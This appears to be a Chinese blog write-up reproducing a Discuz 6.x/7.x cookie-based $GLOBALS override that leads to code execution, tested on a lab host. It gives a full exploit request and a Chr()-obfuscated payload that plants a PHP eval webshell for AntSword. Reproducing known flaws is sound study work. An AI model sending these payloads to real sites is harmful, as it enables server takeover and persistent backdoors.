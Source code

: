 ```yaml
---
title: Discuz代码执行
date: 2021-01-26 20:28:12
categories: 漏洞复现
tags: Discuz
---
```


#### 背景

Discuz是一套十分受欢迎的论坛软件系统，已拥有多年的应用历史和三十多万网站用户案例，是全球成熟度最高、覆盖率最大的论坛软件系统之一。由于php5.3.x版本里php.ini的设置里`request_order`默认值为GP，导致`$_REQUEST`中不再包含`$_COOKIE`，通过在Cookie中传入`$GLOBALS`来覆盖全局变量，造成代码执行漏洞。

<!--more-->

#### 影响版本

* Discuz 6.x
* Discuz 7.x

#### 复现过程

1.随便选择一篇帖子，发送如下数据包，主要修改的是Cookie中的值`GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();`

```http
GET /viewthread.php?tid=6&extra=page%3D1 HTTP/1.1
Host: 192.168.0.108:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.108:8080/forumdisplay.php?fid=2
Connection: close
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```



![](https://cdn.laohuan.art/Snipaste_2021-01-25_21-02-11.png)

![](https://cdn.laohuan.art/Snipaste_2021-01-25_21-05-59.png)

成功执行phpinfo

**写一句话木马**

将cookie的值替换为

```php
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval(Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(98).Chr(107).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(98).Chr(107).Chr(98).Chr(107).Chr(98).Chr(107).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59))
```

eval函数里的ascii码转化为字符串就是写一句话木马的过程

![](https://cdn.laohuan.art/Snipaste_2021-01-25_21-29-59.png)

发送payload

![](https://cdn.laohuan.art/Snipaste_2021-01-25_21-32-49.png)

蚁剑连接即可

![](https://cdn.laohuan.art/Snipaste_2021-01-25_21-38-18.png)

#### 参考链接

[https://github.com/vulhub/vulhub/tree/master/discuz/wooyun-2010-080723](https://github.com/vulhub/vulhub/tree/master/discuz/wooyun-2010-080723)

[https://www.secpulse.com/archives/2338.html](https://www.secpulse.com/archives/2338.html)